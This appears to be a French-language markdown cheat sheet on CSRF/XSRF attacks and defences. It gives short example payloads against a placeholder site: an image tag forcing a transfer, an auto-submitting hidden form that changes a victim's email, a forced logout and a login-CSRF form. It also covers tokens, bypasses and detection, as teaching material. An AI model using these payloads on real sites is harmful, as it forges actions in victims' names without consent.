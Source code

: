 # CSRF-XSRF.md

## Cheat Sheet - CSRF (Cross-Site Request Forgery) / XSRF

Ce document détaille les attaques CSRF (ou XSRF), leurs mécanismes, exemples et défenses, à utiliser dans des environnements contrôlés et légaux uniquement.

---

## 1. Comprendre CSRF/XSRF

Une attaque CSRF exploite la confiance d’un site envers un utilisateur authentifié pour exécuter des actions non désirées via des requêtes forgées.

| **Aspect**           | **Description**                                      |
|----------------------|-----------------------------------------------------|
| **Cible**            | Actions sensibles (ex. : transferts, modifications) |
| **Condition**        | Utilisateur authentifié avec session active        |
| **Moyen**            | Requête falsifiée (GET, POST, etc.)                |
| **Impact**           | Exécution d’actions au nom de la victime           |

---

## 2. Exemples d'attaques CSRF

### Attaques via requête GET
| Exemple                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| `<img src="http://site.com/transfer?amount=1000&to=attaquant">` | Transfert d'argent via une balise image         |
| `<a href="http://site.com/delete?user=123">Supprimer</a>` | Suppression de compte via un lien cliquable     |

### Attaques via formulaire POST
| Exemple                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| ```html                                  | Formulaire auto-soumis via JavaScript            |
| <form action="http://site.com/update" method="POST"> |                                                  |
|   <input type="hidden" name="email" value="hacked@evil.com"> |                                       |
| </form>                                  |                                                  |
| <script>document.forms[0].submit()</script> |                                               |
| ```                                      |                                                  |

### Attaques via redirection
| Exemple                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| `<meta http-equiv="refresh" content="0;url=http://site.com/logout">` | Déconnexion forcée via redirection         |

---

## 3. Vecteurs d’attaque courants

| **Vecteur**          | **Explication**                                      |
|----------------------|-----------------------------------------------------|
| **Balises HTML**     | `<img>`, `<iframe>` ou `<script>` avec URL malveillante |
| **Liens piégés**     | Liens cliquables envoyés par email ou chat         |
| **Formulaires cachés** | Soumission automatique via JavaScript            |
| **Requêtes AJAX**    | Exploitation de CORS mal configuré                 |

---

## 4. Préventions contre CSRF

### Mécanismes de base
| **Méthode**          | **Description**                                      |
|----------------------|-----------------------------------------------------|
| **Jeton CSRF**       | Ajouter un token unique par session ou requête     |
| **Méthode POST**     | Utiliser POST au lieu de GET pour les actions      |
| **Double soumission de cookie** | Vérifier un cookie contre un champ caché       |

### Exemples d’implémentation
| **Technique**        | **Code/Exemple**                                    |
|----------------------|----------------------------------------------------|
| **Jeton dans formulaire** | ```html                                        |
|                   | <form method="POST" action="/update">             |
|                   |   <input type="hidden" name="csrf_token" value="abcd1234"> |
|                   | </form>                                          |
|                   | ```                                              |
| **Validation serveur** | Vérifier `csrf_token` contre une valeur en session |
| **En-tête personnalisé** | Ajouter `X-CSRF-Token` dans les requêtes AJAX    |

### Contournements possibles
| **Faille**           | **Explication**                                      |
|----------------------|-----------------------------------------------------|
| **Jeton statique**   | Token réutilisable ou non unique                   |
| **CORS mal configuré** | Permet des requêtes cross-origin non protégées    |
| **Absence de validation** | Token présent mais non vérifié côté serveur      |

---

## 5. Détection de vulnérabilités CSRF

| **Test**             | **Méthode**                                         |
|----------------------|----------------------------------------------------|
| **Analyse des requêtes** | Vérifier si les actions sensibles utilisent GET ou POST sans token |
| **Outils**           | Burp Suite, OWASP ZAP (scan passif/actif)          |
| **Symptôme**         | Action réussie sans interaction explicite          |

---

## 6. Variantes avancées

### Login CSRF
| Exemple                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| ```html                                  | Force l’utilisateur à se connecter avec un compte attaquant |
| <form action="http://site.com/login" method="POST"> |                                                |
|   <input type="hidden" name="username" value="attaquant"> |                                       |
|   <input type="hidden" name="password" value="1234"> |                                          |
| </form>                                  |                                                  |
| ```                                      |                                                  |

### CSRF + XSS
- Combiner XSS pour injecter un script qui exécute une requête CSRF dynamiquement.

---

## Précautions
- **Usage légal uniquement** : Tests dans des environnements autorisés.
- **Outils recommandés** : Burp Suite, Postman pour simuler des requêtes.
- **Standards** : Suivre les recommandations OWASP CSRF Cheat Sheet.
